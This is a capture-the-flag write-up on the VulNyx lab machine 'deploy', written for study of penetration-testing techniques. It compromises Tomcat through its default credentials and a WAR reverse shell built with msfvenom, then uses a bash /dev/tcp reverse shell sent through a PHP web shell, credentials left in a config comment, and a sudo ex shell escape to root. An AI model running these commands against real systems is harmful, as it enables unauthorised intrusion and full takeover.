




# deploy

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| deploy | m0w | Low | VulNyx |

**Summary:** The deploy machine exposed an Apache Tomcat instance on port 8080 alongside the stock Apache landing page on port 80. The Tomcat server was still configured with the well known default credentials `tomcat:s3cret`, protected only by the manager application. Those credentials unlocked the Tomcat manager console, where a malicious WAR archive generated with `msfvenom` was uploaded as the application `shell`. Visiting `/shell/` executed the embedded `jsp_shell_reverse_tcp` payload and returned a reverse shell running as the `tomcat` user. Two other accounts existed on the box, `toor` and `sa`, and the Tomcat configuration file at `conf/tomcat-users.xml` carried a commented line disclosing the account `sa` with the password `salala!!`, which worked directly over SSH. As `sa`, the process spy `pspy64` revealed a root cron job executing `chmod 777 /var/www/html` every minute, opening the web root to the world. A PHP reverse shell dropped into that folder was interpreted by the web server as the `toor` user, since a request to `shell.php?cmd=id` returned `uid=1000(toor)`, and it was leveraged into a `toor` shell. Finally, the `toor` account held a `sudo` rule permitting `/usr/bin/ex` as root without a password, and the editor's `:!` shell escape produced an immediate root shell, allowing both flags to be read.

---

## Reconnaissance

The session started with the standard host discovery sweep.

1. The target was identified at `192.168.56.111`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24             
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 20:03 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00050s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.0044s latency).
MAC Address: 08:00:27:60:0B:3D (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.111 (192.168.56.111)
Host is up (0.0022s latency).
MAC Address: 08:00:27:D8:30:9B (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.99 seconds

┌──(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.111
```

2. A fast full port scan showed three open services:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p- -T4 --min-rate=1000 -Pn $ip 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 20:03 -0400
Nmap scan report for 192.168.56.111 (192.168.56.111)
Host is up (0.00058s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 08:00:27:D8:30:9B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.94 seconds
```

3. Version and script scanning identified the services in detail:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p 22,80,8080 -sC -sV -T4 -Pn $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 20:04 -0400
Nmap scan report for 192.168.56.111 (192.168.56.111)
Host is up (0.00033s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Apache2 Debian Default Page: It works
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 08:00:27:D8:30:9B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

SSH sat on port 22, the default Apache page on port 80, and an Apache Tomcat instance on port 8080. The Tomcat management console immediately became the target of interest.

4. Opening the Tomcat application on port 8080 in a browser displayed the standard Tomcat landing page:



5. Attempting to log into the Tomcat Manager application with the classic default credentials `tomcat:s3cret` granted access instantly:



---

## Initial Access

### Deploying a Malicious WAR Archive

6. A malicious WAR file containing a reverse shell payload was generated with `msfvenom`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f war > shell.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```

7. The WAR was uploaded as a new application through the Tomcat Manager deployment panel:



8. A netcat listener was staged on the attacking machine before triggering the payload:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nc -lvnp 4444                         
listening on [any] 4444 ...
```

9. The deployed application was requested in the browser, which invoked the JSP payload:

```
http://192.168.56.111:8080/shell/
```

dont forget to nc first,

10. The reverse shell connected back as the Tomcat service account and was upgraded to an interactive TTY:

```bash
connect to [192.168.56.104] from (UNKNOWN) [192.168.56.111] 59306
script -qc /bin/bash /dev/null
tomcat@deploy:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(kali㉿kali)-[~/nyx]
└─$ stty raw -echo;fg                                                                                 
[1]  + continued  nc -lvnp 4444

tomcat@deploy:/var/lib/tomcat9$ export TERM=xterm
tomcat@deploy:/var/lib/tomcat9$ export SHELL=/bin/bash
tomcat@deploy:/var/lib/tomcat9$ stty rows 80 cols 130
```

A shell existed as the `tomcat` user.

---

## Privilege Escalation

### Credential Discovery and Lateral Movement to sa

11. The local account list revealed two additional users with login shells:

```bash
tomcat@deploy:/var/lib/tomcat9$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
toor:x:1000:1000:toor,,,:/home/toor:/bin/bash
sa:x:1001:1001::/home/sa:/usr/bin/bash
tomcat@deploy:/var/lib/tomcat9$ ls -la /home
total 16
drwxr-xr-x  4 root root 4096 may 10  2023 .
drwxr-xr-x 18 root root 4096 may 10  2023 ..
drwx------  3 sa   sa   4096 may 11  2023 sa
drwx------  3 toor toor 4096 may 10  2023 toor
```

The accounts `toor` and `sa` were potential lateral movement targets.

12. The Tomcat user configuration file carried a gift: a commented out user entry right next to the active `tomcat` account:

```bash
tomcat@deploy:/var/lib/tomcat9$ cat conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>

<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="tomcat" password="s3cret" roles="manager-gui"/>
  <!-- <user username="sa" password="salala!!" roles="manager-gui"/> -->
</tomcat-users>
```

The active entry confirmed the manager password `s3cret`, and the commented line disclosed the credentials of a second user: `sa` with the password `salala!!`. That password was tested directly against SSH.

13. Logging into the box as `sa` worked:

```bash
~/projects/wu/vulnyx-writeups main*                                                                         07:43:00
❯ ssh sa@$ip       
The authenticity of host '192.168.56.111 (192.168.56.111)' can't be established.
ED25519 key fingerprint is SHA256:3dqq7f/jDEeGxYQnF2zHbpzEtjjY49/5PvV5/4MMqns
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.111' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
sa@192.168.56.111's password: 
Linux deploy 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64
sa@deploy:~$ id
uid=1001(sa) gid=1001(sa) grupos=1001(sa)
```

### Root Processes over a Writable Web Root

14. To hunt for root scheduled tasks, `pspy64` was transferred from a Python HTTP server and granted execute permissions:

```bash
┌──(kali㉿kali)-[/opt]
└─$ python3 -m http.server 1111
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
192.168.56.111 - - [12/Aug/2026 20:48:39] "GET /pspy/pspy64 HTTP/1.1" 200 -
```

```bash
sa@deploy:~$ wget http://192.168.56.104:1111/pspy/pspy64
--2026-08-13 02:50:03--  http://192.168.56.104:1111/pspy/pspy64
Conectando con 192.168.56.104:1111... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3104768 (3,0M) [application/octet-stream]
Grabando a: «pspy64»

pspy64                        100%[==============================================>]   2,96M  --.-KB/s    en 0,1s    

2026-08-13 02:50:03 (25,9 MB/s) - «pspy64» guardado [3104768/3104768]

sa@deploy:~$ chmod +x pspy64 
```

15. Running pspy exposed a repeating root action against the web root:

```bash
2026/08/13 02:51:01 CMD: UID=0     PID=1107   | /bin/sh -c /usr/bin/chmod 777 /var/www/html
```

Every minute, root made the entire web document root world writable.

16. A PHP web shell was placed inside `/var/www/html` to take advantage of the widened permissions:



17. The web shell executed commands as the `toor` account:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl "http://$ip/shell.php?cmd=id"
uid=1000(toor) gid=1000(toor) groups=1000(toor)
```

Since the Apache virtual host interpreted the PHP script under the `toor` identity, the web shell offered command execution as `toor`.

18. A netcat listener was staged and the web shell was used to deliver a Bash reverse shell:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
```

```bash
~/projects/wu/vulnyx-writeups main*                                                                 12m 10s 07:55:11
❯ curl "http://$ip/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.104/4445+0>%261'"
```

19. The shell connected back as `toor` and was stabilized:

```bash
connect to [192.168.56.104] from (UNKNOWN) [192.168.56.111] 48808
bash: cannot set terminal process group (440): Inappropriate ioctl for device
bash: no job control in this shell
toor@deploy:/var/www/html$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
toor@deploy:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4445

┌──(kali㉿kali)-[~/nyx]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 4445

toor@deploy:/var/www/html$ export TERM=xterm
toor@deploy:/var/www/html$ export SHELL=/bin/bash
toor@deploy:/var/www/html$ stty rows 80 cols 130
```

### toor to root via the ex Editor

20. Checking `sudo` privileges for `toor` revealed the final escalation primitive:

```bash
toor@deploy:/home/toor$ sudo -l
Matching Defaults entries for toor on deploy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User toor may run the following commands on deploy:
    (root) NOPASSWD: /usr/bin/ex
```

The `ex` editor, a non-visual precursor of `vi`, honors an `:!` escape that executes a shell command from within the editing session.

21. That escape was used to spawn a root shell:

```bash
toor@deploy:/home/toor$ sudo -u root /usr/bin/ex -c ':!/bin/sh'

# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
deploy
# cat /home/toor/user.txt /root/root.txt
```

Because `ex` ran as root, its `:!` shell escape produced a root shell, and both the user and root flags were collected.

---

## Attack Chain Summary

1. **Reconnaissance**: A ping sweep isolated the target at `192.168.56.111`, and port scans exposed SSH on port 22, Apache on port 80, and an Apache Tomcat instance on port 8080.

2. **Vulnerability Discovery**: The Tomcat Manager accepted the default credentials `tomcat:s3cret`, granting administrative access to the application manager.

3. **Exploitation**: A malicious WAR file built with `msfvenom` was deployed through the manager, and requesting the `/shell/` application executed the JSP reverse shell, returning a shell as the `tomcat` user.

4. **Internal Enumeration**: The file `conf/tomcat-users.xml` disclosed the `sa` account with the password `salala!!` inside a commented line, granting SSH access as `sa`. Running `pspy64` revealed a root cron job that ran `chmod 777 /var/www/html` every minute.

5. **Privilege Escalation**: A PHP reverse shell placed in the freshly writable web root executed as the `toor` user and delivered a `toor` shell. The `sudo` rule granting `toor` passwordless access to `/usr/bin/ex` was leveraged through the `:!` shell escape, producing a root shell and full compromise.